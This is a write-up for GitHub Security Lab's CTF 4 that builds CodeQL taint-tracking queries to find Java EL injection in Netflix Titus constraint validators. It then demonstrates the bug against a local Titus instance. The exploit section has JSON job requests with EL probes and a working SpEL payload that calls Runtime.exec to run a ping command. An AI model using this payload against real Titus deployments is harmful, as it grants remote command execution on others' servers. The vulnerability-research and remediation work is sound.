








# ctf4-codeql-and-chill-java
GitHub Security Lab CTF 4: CodeQL and Chill - The Java Edition

## TaintTracking Configuration for Netflix Titus
I've been wanting to look into the power of TaintTracking in CodeQL for some time and this CTF is perfect for learning and practicing against a real life target. The challenge takes you from setting up flow paths to fully customizing them when tracking the vulnerabilities and puts the cherry on top with an interesting Java EL injection.

Let's CodeQL and chill!

## Step 1.1: Setting up our source
We are setting the source to be the first parameter of `ConstraintValidator.isValid()`. We start by modeling a QL class to filter Java classes that implement javax.validation.ConstraintValidator:

```java
/*
* ConstraintValidatorClass (Class)
* Holds classes implementing javax.validation.ConstraintValidator<>'s
*/
class ConstraintValidatorClass extends Class {
    ConstraintValidatorClass() {
        this.getASupertype().getASupertype+().hasQualifiedName("javax.validation", "ConstraintValidator<>")
    }
}
```

Now we need a class to reference the `isValid` method that meets the following criteria:
* Must be in a class that implements `javax.validation.ConstraintValidator<>`
* Only methods in the ConstraintValidator interface
* Has the name `isValid`

```java
/*
* ConstraintValidatorIsValid (Method)
* Holds method isValid implemented in the ConstraintValidator interface
*/
class ConstraintValidatorIsValid extends Method {
    ConstraintValidatorIsValid() {
        this.getDeclaringType() instanceof ConstraintValidatorClass //javax.validation.ConstraintValidator<>'s
        and this.hasName("isValid") //Only methods with name 'isValid'
        and not(this.isPrivate()) //Only methods in the ConstraintValidator interface 
        //and this.hasAnnotation() //We can also look for the @override annotation)
    }
}
```
We use our new QL class to set the first parameter as the source:
```java
    override predicate isSource(DataFlow::Node source) { 
        exists( ConstraintValidatorIsValid c |
        //I was aware of the class RemoteFlowSource but the following line didn't work as expected
            //source instanceof RemoteFlowSource and
            source.asParameter() = c.getParameter(0) 
        ) 
    }
```
And we get our 6 results as expected!



## Step 1.2: Setting up our sinks
It is time to configure our sinks as the first argument of method calls to `buildConstraintViolationWithTemplate`:
```java
/*
* isBuildConstraintViolationWithTemplate
* Returns expression holding the first argument of method calls to 'buildConstraintViolationWithTemplate'
*/
predicate isBuildConstraintViolationWithTemplate(Expr arg) {
    exists(MethodAccess buildCallAccess |
        buildCallAccess.getMethod().getName() = "buildConstraintViolationWithTemplate"
        and arg = buildCallAccess.getArgument(0)
    )
}
```
We will use this expression inside our TaintTracking configuration as follows:
```java
    override predicate isSink(DataFlow::Node sink) { 
        exists( Expr arg |
            isBuildConstraintViolationWithTemplate(arg)
            and sink.asExpr() = arg 
        ) 
    }
```
And now we can clearly identify our five sinks.



## Step 1.3: Our taint tracking configuration
Let's put together our first attempt at taint tracking:
```
/*
* TitusTTConf - TaintTracking Configuration for EL injection in Titus
* Source: ConstraintValidator.isValid(*,)
* Sink: ConstraintValidatorContext.buildConstraintViolationWithTemplate(*,)
*/
class TitusTTConf extends TaintTracking::Configuration {
    TitusTTConf() { this = "TitusTTConf" }

    override predicate isSource(DataFlow::Node source) { 
        exists( ConstraintValidatorIsValid c |
        //I was aware of the class RemoteFlowSource but the following line didn't work as expected
            //source instanceof RemoteFlowSource and
            source.asParameter() = c.getParameter(0) 
        ) 
    }

    override predicate isSink(DataFlow::Node sink) { 
        exists( Expr arg |
            isBuildConstraintViolationWithTemplate(arg)
            and sink.asExpr() = arg 
        ) 
    }
}


from TitusTTConf cfg, DataFlow::PathNode source, DataFlow::PathNode sink
where cfg.hasFlowPath(source, sink)
select sink, source, sink, "Custom constraint error message contains unsanitized user data"

```

Unfortunately, this was not enough to catch our vulnerabilities. Let's keep trying.

## Step 1.4: Partial flowing
For this step, we need to use partial flows to detect where the flows stop being tracked. This is very useful for debugging as flows don't propagate through getters/setters and other methods.

To constrain all the possible sources, we could filter by file name. However, keep in mind that `toString()` calls are not suitable for production code in QL:
```
source.getNode().getEnclosingCallable().getFile().toString() = "SchedulingConstraintValidator"
```
Or maybe by the type of parameter:
```
source.getNode().getEnclosingCallable().getParameterType(0) instanceof ContainerClass 
```
And there are many other possibilities available. We will use `DataFlow::PartialPathNode` for this part. Putting everything together gives us the following query:
```
/*
* Holds for classes named Container
*/
class ContainerClass extends Class {
    ContainerClass() {
        this.getName() = "Container"
    }
}

class TitusTTConfig extends TaintTracking::Configuration {
    TitusTTConfig() { this = "TitusTTConfig" }

    override predicate isSource(DataFlow::Node source) { 
        exists( ConstraintValidatorIsValid c |
            source.asParameter() = c.getParameter(0)
        )
    }

    override predicate isSink(DataFlow::Node sink) { 
        exists( Expr arg |
            isBuildConstraintViolationWithTemplate(arg) and
            sink.asExpr() = arg 
        ) 
    }    
    override int explorationLimit() { result =  10} 
}

from TitusTTConfig cfg, DataFlow::PartialPathNode source, DataFlow::PartialPathNode sink, int dist
where 
cfg.hasPartialFlow(source, sink, dist)
//and source.getNode().getEnclosingCallable().getFile().toString() = "SchedulingConstraintValidator" //By filename
and source.getNode().getEnclosingCallable().getParameterType(0) instanceof ContainerClass //By type

select sink, source, sink, "Partial flow from unsanitized user data:"
```
Now, we can focus on the specific flows that we are tracking. Note how the argument of type Container looks interesting:



## Step 1.5: Missing taint steps
Tracking the vulnerability allow us to see where the flow is stopping. My guess is that getters/setters methods will often overwrite the tainted data, and leaving it unconstrained could also return a very large number of results. I found out about this when a poorly written query consumed all my RAM :). We need to limit the number of sources when analyzing partial flows.

## Step 1.6: Additional taint steps
For this we write an additional taint tracking step that defines a new flow through these functions and it stops right before the HashSet constructor call. We define a class and a predicate to be called from the step call:

```
class FlowConstraints extends Method {
    FlowConstraints() {
        this.hasName("getSoftConstraints")
        or this.hasName("getHardConstraints")
        or this.hasName("keySet")
    }
}
predicate expressionCompileStep(DataFlow::Node node1, DataFlow::Node node2) {
    exists(MethodAccess ma, Method m | ma.getMethod() = m |
        m instanceof FlowConstraints and
        ma = node2.asExpr() and
        ma.getQualifier() = node1.asExpr()
    )
}
```

And we extend the TaintTracking::AdditionalTaintStep class as follows:

```
class NetflixTitusSteps extends TaintTracking::AdditionalTaintStep {
    override predicate step(DataFlow::Node node1, DataFlow::Node node2) {
        expressionCompileStep(node1, node2) 
    }
}
```
## Step 1.7: Adding taint steps through constructors
To add the step through the constructor of HashSet we need to define another predicate:

```
/*
* HashSet constructor classes
*/
class TypeHashtable extends RefType {
TypeHashtable() { 
    hasQualifiedName("java.util", "HashSet") or
    hasQualifiedName("java.util", "HashSet<>") or
    hasQualifiedName("java.util", "HashSet<String>") 
    }
}

/*
* HashSet constructor call step
*/
predicate hashSetMethodStep(DataFlow::Node node1, DataFlow::Node node2) {
    exists(ConstructorCall cc | cc.getConstructedType() instanceof TypeHashtable |
        node1.asExpr() = cc.getAnArgument() and
        (node2.asExpr() = cc or node2.asExpr() = cc.getQualifier())
    )
}
```
And add a call to this new predicate in our step call:
```
class NetflixTitusSteps extends TaintTracking::AdditionalTaintStep {
    override predicate step(DataFlow::Node node1, DataFlow::Node node2) {
        expressionCompileStep(node1, node2) or
        hashSetMethodStep(node1, node2)
  }
}
```

## Step 1.8: Finish line
After adding the missing taint steps, we can run the query again and we get our first vulnerable injection point!



# Step 2: Another issue
To avoid code repetition, I updated our existing class `FlowConstraints` for the missing taint tracking steps. After debuging the flow track in `SchedulingConstraintSetValidator`, we can update our previously defined class with the missing methods (`stream`, `map`, `collect`).
```
/*
* The names of funtions that we want to allow taint tracking flow
*/
class FlowConstraints extends Method {
    FlowConstraints() {
        this.hasName("getSoftConstraints")
        or this.hasName("getHardConstraints")
        or this.hasName("keySet") 
        or this.hasName("stream")
        or this.hasName("map")
        or this.hasName("collect")
    }
}
```
Running the query again will return us the result we were missing. We have found the two vulnerabilities!



# Step 3: Errors and exceptions
For step 3, we need to update our query to include the case where the sink is called from within a catch statement:
```java
try {
    parse(tainted);
} catch (Exception e) {
    sink(e.getMessage())
}
```

Remember we are  interested on the method calls done inside catch statements that use the Exception/Throwable argument in the catch clause. Since this specific use case is not in the source code, I wrote a standalone query that I can turn into a predicate for the step() call when ready. The following query detects method access where the variable passed to the `catch` statement is accessed by a function.

```
import java
 
private predicate catchTypeNames(string typeName) {
  typeName = "Throwable" or typeName = "Exception"
}

from Method m, MethodAccess ma, CatchClause cc, LocalVariableDeclExpr v, TryStmt t, string typeName
where
  catchTypeNames(typeName)
  and t.getACatchClause() = cc
  and cc.getVariable() = v
  and v.getType().(RefType).hasQualifiedName("java.lang", typeName)
  and exists(v.getAnAccess())
  and ma.getMethod() = m
  and ma.getAnArgument().getType() = cc.getVariable().getType()
select cc.getVariable().getType(), ma
```



Now that I know that I'm selecting what I'm looking for, I can re-write the query as a predicate and add some simple heuristic to detect calls to our desired sinks. One way to achieve this is filtering by name, let's look for `buildConstraintViolationWithTemplate` with the following query:
```
private predicate catchTypeNames(string typeName) {
  typeName = "Throwable" or typeName = "Exception"
}
predicate catchStep(DataFlow::Node node1, DataFlow::Node node2) {
    exists(Method m, MethodAccess ma, CatchClause cc, LocalVariableDeclExpr v, TryStmt t, string typeName, Expr arg|
    catchTypeNames(typeName)
    and t.getACatchClause() = cc 
    and cc.getVariable() = v
    and v.getType().(RefType).hasQualifiedName("java.lang", typeName)
    and exists(v.getAnAccess()) 
    and ma.getMethod() = m
    and ma.getAnArgument().getType() = cc.getVariable().getType() 
    and m.getName() = "buildConstraintViolationWithTemplate"
    and node2.asExpr() = ma
    and node1.asExpr() = ma.getQualifier()
    )
}
```
Since the vulnerable pattern is not in our code base, we can test our new step() by changing to the name of the function(s) for some other existing call such as `failed(...)`.



At the end, our final predicate for `isAdditionalTaintStep` is:
```
   override predicate isAdditionalTaintStep(DataFlow::Node node1,
                                           DataFlow::Node node2) {

        expressionCompilerCompileStep(node1, node2)
        or hashSetMethodStep(node1, node2)
        or catchStep(node1, node2)
    }
```
Excellent, we have located the two vulnerable injection points and our query is robust enough to detect some edge cases. It is time to move to the exploitation part.

# Step 4: Exploit and remediation
## Step 4.1: PoC
### Running Netflix Titus
For this we can take the easiest route. We start by grabbing the vulnerable tag of Netflix Titus from Github and running the provided Docker images. 
```
git clone https://github.com/Netflix/titus-control-plane.git
git checkout tags/v0.1.1-rc.263 -b master
docker-compose build
docker-compose up -d
```
If you are running Windows and it fails, you might need to adjust the new line handling configuration:
```
git config core.autocrlf false
```
Finally, you can verify the service is online by checking port 7001 with the URL `/api/v2/status`:
```
curl localhost:7001/api/v2/status
```
Time to hunt for that injection point. By inspecting the results given by CodeQL, the error message in the vulnerable call gives us a very user-friendly error. It seems we need to send non-unique key names for softConstraints and hardConstraints to trigger the vulnerable call:

```
context.buildConstraintViolationWithTemplate(
                "Soft and hard constraints not unique. Shared constraints: " + common
        ).addConstraintViolation().disableDefaultConstraintViolation();
```
From CodeQL we also know it happens to the `Container` object type. The first thing we need to know is how to schedule a container job so our funtion gets triggered. We look for this in the documentation and the template to schedule a job is listed on the project's README file:
```json
curl localhost:7001/api/v3/jobs \
  -X POST -H "Content-type: application/json" -d \
  '{
    "applicationName": "localtest",
    "owner": {"teamEmail": "me@me.com"},
    "container": {
      "image": {"name": "alpine", "tag": "latest"},
      "entryPoint": ["/bin/sleep", "1h"],
      "securityProfile": {"iamRole": "test-role", "securityGroups": ["sg-test"]}
    },
    "batch": {
      "size": 1,
      "runtimeLimitSec": "3600",
      "retryPolicy":{"delayed": {"delayMs": "1000", "retries": 3}}
    }
  }'
  ```
  Now we can create a job but there is nothing about constraints there. By querying `/api/v3/jobs` I found the complete structure of the message included soft and hard constraints. Now, we can send our first injection attempt:
```
{
    "applicationName": "localtest",
    "owner": {"teamEmail": "me@me.com"},
    "container": {
      "image": {"name": "alpine2", "tag": "latest"},
      "entryPoint": ["/bin/sleep", "1h"],
      "securityProfile": {"iamRole": "test-role", "securityGroups": ["sg-test"]},
      "hardConstraints": {"constraints": {"${9*9}":"a"}, "expression": "${9*9}"},
      "softConstraints": {"constraints": {"${9*9}":"a"}, "expression": "${9*9}"}
    },
    "batch": {
      "size": 1,
      "runtimeLimitSec": "3600",
      "retryPolicy":{"delayed": {"delayMs": "1000", "retries": 3}}
    }
  }
```
This failed but gave me confirmation that we are hitting the right sink as I now see the same error message I was expecting:
```
{"statusCode":400,"message":"Invalid Argument: {Validation failed: 'field: 'container.hardConstraints', description: 'Unrecognized constraints [${9*9}]', type: 'HARD''}, {Validation failed: 'field: 'container.softConstraints', description: 'Unrecognized constraints [${9*9}]', type: 'HARD''}, {Validation failed: 'field: 'container', description: 'Soft and hard constraints not unique. Shared constraints: [${9*9}]', type: 'HARD''}"}
```
After trying the most common Java EL injection vectors such as `${}`, `%()`..., we find one that gets our code interpreted:
```
{
    "applicationName": "localtest",
    "owner": {"teamEmail": "me@me.com"},
    "container": {
      "image": {"name": "alpine2", "tag": "latest"},
      "entryPoint": ["/bin/sleep", "1h"],
      "securityProfile": {"iamRole": "test-role", "securityGroups": ["sg-test"]},
      "hardConstraints": {"constraints": {"CTF-AND-CHILL-#{3+1}":"a"}, "expression": ""},
      "softConstraints": {"constraints": {"CTF-AND-CHILL-#{3+1}":"a"}, "expression": ""}
      },
    "batch": {
      "size": 1,
      "runtimeLimitSec": "3600",
      "retryPolicy":{"delayed": {"delayMs": "1000", "retries": 3}}
    }
  }
```
The response shows that `CTF-AND-CHILL-#{3+1}` got interpreted as `CTF-AND-CHILL-4`!
```
{"statusCode":400,"message":"Invalid Argument: {Validation failed: 'field: 'container', description: 'Soft and hard constraints not unique. Shared constraints: [CTF-AND-CHILL-4]', type: 'HARD''}, {Validation failed: 'field: 'container.softConstraints', description: 'Unrecognized constraints [ctf-and-chill-4]', type: 'HARD''}, {Validation failed: 'field: 'container.hardConstraints', description: 'Unrecognized constraints [ctf-and-chill-4]', type: 'HARD''}"}
```
Now we need to come up with an EL expression that a Remote Command Execution vulnerability. This part was very challenging as an exception was thrown when validating the message interpolation. For this we used @pwntester's neat trick and our RCE PoC payload looks like this: 
```
#{#this.class.name.substring(0,5) == 'com.g' ? '' : T(java.lang.Runtime).getRuntime().exec(new java.lang.String('ping -c 10 192.168.0.4')).class.name}
```
And we can finally confirm the RCE!!!



## Step 4.2: Remediation


Now, from the remediation techniques discussed in the [original advisory](https://securitylab.github.com/advisories/GHSL-2020-028-netflix-titus/), let's find cases that disable the Java EL interpolation and only use `ParameterMessageInterpolator`. 
```
import java

from Method m, MethodAccess ma
where 
  m.getName()="messageInterpolator" 
  and ma.getMethod() = m
  and ma.getArgument(0).getType().getName() = "SpELMessageInterpolator"
select m, ma, ma.getArgument(0), ma.getArgument(0).getType(), ma.getEnclosingCallable()
```

